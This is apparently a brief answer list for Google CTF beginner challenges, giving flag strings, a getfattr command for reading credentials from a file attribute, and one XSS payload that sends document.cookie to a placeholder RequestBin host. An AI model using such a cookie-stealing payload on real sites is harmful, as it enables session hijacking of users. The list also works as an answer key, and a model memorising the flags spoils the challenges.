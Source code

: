 1. CTF{welcome_to_googlectf}

2. CTF{4efcc72090af28fd33a2118985541f92e793477f}

3. CTF{congratsyoufoundmycreds}
getfattr --only-values -n user.FILE0 credentials.txt > output

### Work Computer challenge
`fold` command

4. CTF{4ll_D474_5h4ll_B3_Fr33}                   


###Agriculture
`5. CTF{8aaa2f34b392b415601804c2f5f0f24e}`
//<script>document.location='REQUESTBIN_LINK'+document.cookie</script>

`6. CTF{Why_does_cauliflower_threaten_us}`

`7* CTF{Peace_from_Cauli!}`
> http://emoji-t0anaxnr3nacpt4na.web.ctfcompetition.com/humans_and_cauliflowers_network/ 

### Drive to the target
`8* CTF{Who_is_Tardis_Ormandy}`		         


Extras:-
`Ad:- CTF{9e796ca74932912c216a1cd00c25c84fae00e139}`














